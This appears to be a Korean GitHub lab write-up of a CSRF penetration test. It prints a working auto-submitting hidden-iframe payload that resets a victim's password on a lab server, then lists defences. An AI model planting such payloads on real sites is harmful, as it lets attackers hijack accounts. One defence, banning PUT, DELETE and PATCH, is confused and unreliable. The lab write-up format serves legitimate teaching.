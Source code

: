 ## CSRF 모의해킹
CSRF(Cross-Site Request Forgery) 공격은 인증된 사용자의 권한을 사용하여 악의적인 요청을 보내는 공격입니다. 이번 모의해킹에서는 공격자가 악성 요청을 보내어 다른 사용자의 비밀번호를 임의로 수정하는 공격을 다루었습니다.

## 공격 실습

공격자는 다음과같은 HTML 코드를 게시글에 작성합니다.
```html
<iframe name="ifr" width=0 height=0></iframe>
<FORM target="ifr" id="chpw" METHOD="POST" action="http://192.168.219.180/login/changepw_do.php">
<INPUT type="hidden" name="pw" value="1234">
</FORM>
<script>document.getElementById("chpw").submit();</script>
패스워드 변경 1234
```
해당 코드를 살펴보면 HTML 의 iframe을 이용하여 width 와 height를 모두 0으로 설정하여 보이지 않도록하고 비밀번호를 1234로 변경하도록하는 POST 요청을 보냅니다.

**1. 사용자의 원래 비밀번호**

![csrf_userpw](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_userpw.png)

**2. 사용자가 CSRF 공격이포함된 게시글 클릭**

![csrf_click](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_click.png)

**3. 사용자의 비밀번호가 변경됨**

![csrf_changedpw](https://github.com/Tree1st/HK/blob/master/webH/image/csrf/csrf_changedpw.png)

## 대응 방안
- CSRF 토큰 사용: 서버 측에서 발급한 CSRF 토큰을 포함하여 요청을 보내도록 클라이언트에게 요청합니다. 이 토큰은 세션에 저장되어 있는 정보를 이용하여 생성됩니다. 공격자가 이 토큰을 알지 못하면 CSRF 공격을 수행할 수 없습니다.

- SameSite 쿠키 속성 사용: SameSite 쿠키 속성을 사용하여, 같은 도메인 내에서만 쿠키가 전송되도록 합니다. 이를 통해 CSRF 공격으로 인한 쿠키 변조를 막을 수 있습니다.

- Referrer 검증: Referer 헤더를 검증하여, 요청이 온 도메인이 맞는지 검증할 수 있습니다. 하지만, Referer 헤더는 클라이언트에서 조작이 가능하기 때문에 완전한 대응 방안은 아닙니다.

- 안전하지 않은 HTTP 메서드 사용 금지: CSRF 공격에서 주로 사용되는 HTTP 메서드는 GET과 POST입니다. PUT, DELETE, PATCH와 같은 안전하지 않은 HTTP 메서드를 사용하지 않도록 합니다.

- CSRF 방어 라이브러리 사용: CSRF 공격 방어를 위한 라이브러리를 사용하여, 자동으로 CSRF 토큰을 생성하고, 검증하는 등의 방어 기능을 제공합니다.
